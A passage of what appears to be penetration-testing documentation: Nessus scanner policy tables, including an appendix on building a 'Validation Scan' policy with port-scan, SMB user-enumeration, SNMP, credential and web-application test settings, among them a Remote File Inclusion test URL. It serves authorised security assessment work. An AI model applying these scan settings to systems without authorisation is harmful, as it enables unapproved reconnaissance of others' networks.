+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Local distribution                                                 | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| No archive                                                         | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Nikto (NASL wrapper)**\                                        | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Enable Nikto                                                       | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Disable if server never replies 404                                | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Root directory                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Pause between tests (s)                                            | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Scan CGI directories                                               | User supplied                                                     |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Display: 1 Show redirects                                          | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Display: 2 Show cookies received                                   | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Display: 3 Show all 200/OK responses                               | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Display: 4 Show URLs which require authentication                  | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Display: V Verbose Output                                          | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Tuning: 1 Interesting File/Seen in logs                            | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Tuning: 2 Misconfiguration / Default File                          | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Tuning: 3 Information Disclosure                                   | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Tuning: 4 Injection (XSS/Script/HTML)                              | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Oracle Settings**\                                             | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Oracle SID                                                         | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Test default accounts (slow)                                       | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **PCI DSS Compliance**\                                          | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Check for PCI-DSS compliance                                       | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Ping the remote host**\                                        | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| TCP ping destination port(s)                                       | Built-in                                                          |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Do an ARP ping                                                     | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Do a TCP ping                                                      | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Do an ICMP ping                                                    | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Number of Retries (ICMP)                                           | 2                                                                 |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Do an applicative UDP ping (DNS, RPCÖ)                             | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Make the dead hosts appear in the report                           | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Log live hosts in the report                                       | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Test the local Nessus host                                         | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Fast network discovery                                             | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Port scanners settings**\                                      | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Check open TCP ports found by local port enumerators               | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Only run network port scanners if local port enumeration failed    | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **SMB Registry: Start the Registry Service during the scan**\    | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Start the Registry Service during the scan                         | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **SMB Scope**\                                                   | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Request information about the domain                               | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **SMB use domain SID to enumerate users**\                       | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Start UID                                                          | 1000                                                              |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| End UID                                                            | 1200                                                              |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **SMB use host SID to enumerate local users**\                   | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Start UID                                                          | 1000                                                              |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| End UID                                                            | 1200                                                              |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **SMTP settings**\                                               | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Third party domain                                                 | Example.com                                                       |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| From address                                                       | nobody@example.com                                                |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| To address                                                         | postmaster@[AUTO\_REPLACED\_IP]                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **SNMP settings**\                                               | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Community name                                                     | Public                                                            |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| UDP port                                                           | 161                                                               |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SNMPv3 user name                                                   | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SNMPv3 authentication password                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SNMPv3 authentication algorithm                                    | MD5                                                               |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SNMPv3 privacy password                                            | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SNMPv3 privacy algorithm                                           | DES                                                               |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Service Detection**\                                           | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Test SSL based services                                            | Known SSL ports                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Unix Compliance Checks**\                                      | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #1                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #2                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #3                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #4                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #5                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Web Application Tests Settings**\                              | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Enable web applications tests                                      | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Maximum run time (min)                                             | 60                                                                |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Send POST requests                                                 | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Combinations of arguments values                                   | one value                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| HTTP Parameter Pollution                                           | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Stop at first flaw                                                 | Per port (quicker)                                                |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Test embedded web servers                                          | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| URL for Remote File Inclusion                                      | http://rfi.nessus.org/rfi.txt                                     |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Web mirroring**\                                               | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Number of pages to mirror                                          | 1000                                                              |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Maximum depth                                                      | 6                                                                 |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Start page                                                         | /                                                                 |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Excluded items regex                                               | /server\_privileges\\.php                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Follow dynamic pages                                               | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Windows Compliance Checks**\                                   | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #1                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #2                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #3                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #4                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #5                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Windows File Contents Compliance Checks**\                     | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #1                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #2                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #3                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #4                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #5                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+

Appendix D - Creating the "Validation Scan" Policy
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

In order to ensure that all tests are conducted with the same
criteria, you will need to ensure that you have created a policy
called "Validation Scan." In order to do this you will need to connect
to the Nessus server UI, so that you can create a custom policy by
clicking on the "Policies" option on the bar at the top and then "+
Add" button on the right. The "Add Policy" screen will be displayed as
follows:
`Screenshot Here <:File:Penetration_Testing_Execution_164.png>`__

There are four configuration tabs: General, Credentials, Plugins, and
Preferences. For our purposes, most of the default settings do not need
to be modified.

General
^^^^^^^

The General tab is where we will name and configure scan options related
to our policy. There are six boxes of grouped options that control
scanner behavior: Basic, Scan, Network Congestion, Port Scanners, Port
Scan Options, and Performance.

Basic allows us to define the policy itself. The actual settings have
been defined as indicated below:

+------------------------------------------------+------------------------------------------------------------------------------------------------+
| \ **Basic Section**\                           | \ **Setting**\                                                                                 |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| Name                                           | Validation Scan                                                                                |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| Visibility                                     | Shared                                                                                         |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| Description                                    | | Validation Scan Only (Use to check that Nessus is working properly and the signature date)   |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| \ **Scan Section**\                            | \ **Setting**\                                                                                 |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| Save Knowledge Base                            | Checked                                                                                        |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| Safe Checks                                    | Checked                                                                                        |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| Silent Dependencies                            | Checked                                                                                        |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| Log Scan Details to Server                     | Unchecked                                                                                      |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| Stop Host Scan on Disconnect                   | Unchecked                                                                                      |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| Avoid Sequential Scans                         | Unchecked                                                                                      |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| Consider Unscanned Ports as Closed             | Unchecked                                                                                      |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| Designate Hosts by their DNS Name              | Unchecked                                                                                      |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
|                                                |                                                                                                |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| \ **Network Section**\                         | \ **Setting**\                                                                                 |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| Reduce Parallel Connections on Congestion      | Unchecked                                                                                      |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| Use Kernel Congestion Detection (Linux Only)   | Unchecked                                                                                      |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
|                                                |                                                                                                |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| \ **Port Scanners Section**\                   | \ **Setting**\                                                                                 |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| TCP Scan                                       | Checked                                                                                        |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| UDP Scan                                       | Unchecked                                                                                      |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| SYN Scan                                       | Unchecked                                                                                      |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| SNMP Scan                                      | Unchecked                                                                                      |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| Netstat SSH Scan                               | Checked                                                                                        |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| Netstat WMI Scan                               | Checked                                                                                        |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| Ping Host                                      | Unchecked                                                                                      |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
|                                                |                                                                                                |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| \ **Port Scan Options Section**\               | \ **Setting**\                                                                                 |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| Port Scan Range                                | | 22, 161, 1241, 8834                                                                          |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| \ **Performance Section**\                     | \ **Setting**\                                                                                 |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| Max Checks Per Host (Windows)                  | 5                                                                                              |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| Max Checks Per Host (Linux)                    | 50-75                                                                                          |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| Max Hosts Per Scan                             | 1                                                                                              |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| Network Receive Timeout (seconds)              | 5                                                                                              |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| Max Simultaneous TCP Sessions Per Host         | Unlimited                                                                                      |
+------------------------------------------------+------------------------------------------------------------------------------------------------+
| Max Simultaneous TCP Sessions Per Scan         | Unlimited                                                                                      |
+------------------------------------------------+------------------------------------------------------------------------------------------------+

Credentials
^^^^^^^^^^^

The Credentials tab, allows us to configure the Nessus scanner to use
authentication credentials during scanning. For our policy we will not
edit any of the settings within this section. They are however
documented to ensure completeness.

+-------------------------------------------------+--------------------+
| \ **Windows credentials**\                      | \ **Setting**\     |
+-------------------------------------------------+--------------------+
| SMB account                                     | Blank              |
+-------------------------------------------------+--------------------+
| SMB password                                    | Blank              |
+-------------------------------------------------+--------------------+
| SMB domain (optional)                           | Blank              |
+-------------------------------------------------+--------------------+
| SMB password type                               | Password           |
+-------------------------------------------------+--------------------+
| Additional SMB account (1)                      | Blank              |
+-------------------------------------------------+--------------------+
| Additional SMB password (1)                     | Blank              |
+-------------------------------------------------+--------------------+
| Additional SMB domain (optional)(1)             | Blank              |
+-------------------------------------------------+--------------------+
| Additional SMB account (2)                      | Blank              |
+-------------------------------------------------+--------------------+
| Additional SMB password (2)                     | Blank              |
+-------------------------------------------------+--------------------+
| Additional SMB domain (optional)(2)             | Blank              |
+-------------------------------------------------+--------------------+
| Additional SMB account (3)                      | Blank              |
+-------------------------------------------------+--------------------+
| Additional SMB password (3)                     | Blank              |
+-------------------------------------------------+--------------------+
| Additional SMB domain (optional)(3)             | Blank              |
+-------------------------------------------------+--------------------+
| Never send SMB credentials in clear text        | Checked            |
+-------------------------------------------------+--------------------+
| Only use NTLMv2                                 | Unchecked          |
+-------------------------------------------------+--------------------+
|                                                 |                    |
+-------------------------------------------------+--------------------+
| '''SSH Settings '''                             | \ **Setting**\     |
+-------------------------------------------------+--------------------+
| SSH user name                                   | root               |
+-------------------------------------------------+--------------------+
| SSH password (unsafe!)                          | Blank              |
+-------------------------------------------------+--------------------+
| SSH public key to use                           | Blank              |
+-------------------------------------------------+--------------------+
| SSH private key to use                          | Blank              |
+-------------------------------------------------+--------------------+
| Passphrase for SSH key                          | Blank              |
+-------------------------------------------------+--------------------+
| Elevate privileges with                         | Nothing            |
+-------------------------------------------------+--------------------+
| su login                                        | Blank              |
+-------------------------------------------------+--------------------+
| Escalation password                             | Blank              |
+-------------------------------------------------+--------------------+
| SSH known\_hosts file                           | Blank              |
+-------------------------------------------------+--------------------+
| Preferred SSH port                              | 22                 |
+-------------------------------------------------+--------------------+
| Client version                                  | OpenSSH\_5.0       |
+-------------------------------------------------+--------------------+
|                                                 |                    |
+-------------------------------------------------+--------------------+
| \ **Kerberos configuration**\                   | \ **Settings**\    |
+-------------------------------------------------+--------------------+
| Kerberos Key Distribution Center (KDC)          | Blank              |
+-------------------------------------------------+--------------------+
| Kerberos KDC Port                               | 88                 |
+-------------------------------------------------+--------------------+
| Kerberos KDC Transport                          | UDP                |
+-------------------------------------------------+--------------------+
| Kerberos Realm (SSH only)                       | Blank              |
+-------------------------------------------------+--------------------+
|                                                 |                    |
+-------------------------------------------------+--------------------+
| \ **Cleartext protocols settings**\             | \ **Settings**\    |
+-------------------------------------------------+--------------------+
| User name                                       | Blank              |
+-------------------------------------------------+--------------------+
| Password (unsafe!)                              | Blank              |
+-------------------------------------------------+--------------------+
| Try to perform patch level checks over telnet   | Unchecked          |
+-------------------------------------------------+--------------------+
| Try to perform patch level checks over rsh      | Unchecked          |
+-------------------------------------------------+--------------------+
| Try to perform patch level checks over rexec    | Unchecked          |
+-------------------------------------------------+--------------------+

Plugins
^^^^^^^

The Plugins tab, allows us to choose specific security checks by plugin
family or individual checks that we want to enable. The easiest way to
set this is to select the "Enable All" button from the main Plugins tab,
however this assumes the Safe Checks is selected from the General Tab.

Preferences
^^^^^^^^^^^

The Preferences tab allows for more granular control over scan settings.
All items in this category should be. The actual settings have been
defined as indicated below:

+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Cisco IOS Compliance Checks**\                                 | \ **Setting**\                                                    |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #1                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #2                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #3                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #4                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #5                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| '''Database Compliance Checks '''                                  | \ **Setting**\                                                    |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #1                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #2                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #3                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #4                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #5                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| '''Database Settings '''                                           | \ **Setting**\                                                    |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Login                                                              | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Password                                                           | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| DB Type                                                            | Oracle                                                            |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Database SID                                                       | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Database port to use                                               | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Oracle auth type                                                   | NORMAL                                                            |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SQL Server auth type                                               | Windows                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Do not scan fragile devices**\                                 | \ **Setting**\                                                    |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Scan Network Printers                                              | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Scan Novell Netware hosts                                          | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Global variable settings**\                                    | \ **Setting**\                                                    |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Probe services on every port                                       | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| | Do not log in with user accounts not                             | Unchecked                                                         |
| | specified in the policy                                          |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Enable CGI scanning                                                | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Network type                                                       | Mixed (use RFC 1918)                                              |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Enable experimental scripts                                        | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Thorough tests (slow)                                              | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Report verbosity                                                   | Normal                                                            |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Report paranoia                                                    | Normal                                                            |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| HTTP User-Agent                                                    | Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0)   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SSL certificate to use                                             | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SSL CA to trust                                                    | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SSL key to use                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SSL password for SSL key                                           | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **HTTP cookies import**\                                         | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Cookies file                                                       | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **HTTP login page**\                                             | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Login page                                                         | /                                                                 |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Login form                                                         | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Login form fields                                                  | user=%USER%&password=%PASS%                                       |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Login form method                                                  | POST                                                              |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Re-authenticate delay (seconds)                                    | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Check authentication on page                                       | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Follow 30x redirections (# of levels)                              | 2                                                                 |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Authenticated regex                                                | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Invert test (disconnected if regex matches)                        | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Match regex on HTTP headers                                        | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Case insensitive regex                                             | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **ICCP/COTP TSAP Addressing**\                                   | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Start COTP TSAP                                                    | 8                                                                 |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Stop COTP TSAP                                                     | 8                                                                 |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Login configurations**\                                        | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| HTTP account                                                       | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| HTTP password (sent in clear)                                      | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| NNTP account                                                       | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| NNTP password (sent in clear)                                      | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| FTP account                                                        | Anonymous                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| FTP password (sent in clear)                                       |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| FTP writeable directory                                            | /incoming                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| POP2 account                                                       | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| POP2 password (sent in clear)                                      | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| POP3 account                                                       | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| POP3 password (sent in clear)                                      | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| IMAP account                                                       | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| IMAP password (sent in clear)                                      | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Modbus/TCP Coil Access**\                                      | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Start reg                                                          | 0                                                                 |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| End reg                                                            | 16                                                                |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Nessus SYN scanner**\                                          | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Firewall detection                                                 | Automatic (normal)                                                |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Nessus TCP scanner**\                                          | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Firewall detection                                                 | Automatic (normal)                                                |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **News Server (NNTP) Information Disclosure**\                   | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| From address                                                       | Nessus <listme@listme.dsbl.org>                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Test group name regex                                              | f[a-z]\\.tests?                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Max crosspost                                                      | 7                                                                 |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Local distribution                                                 | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| No archive                                                         | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Nikto (NASL wrapper)**\                                        | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Enable Nikto                                                       | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
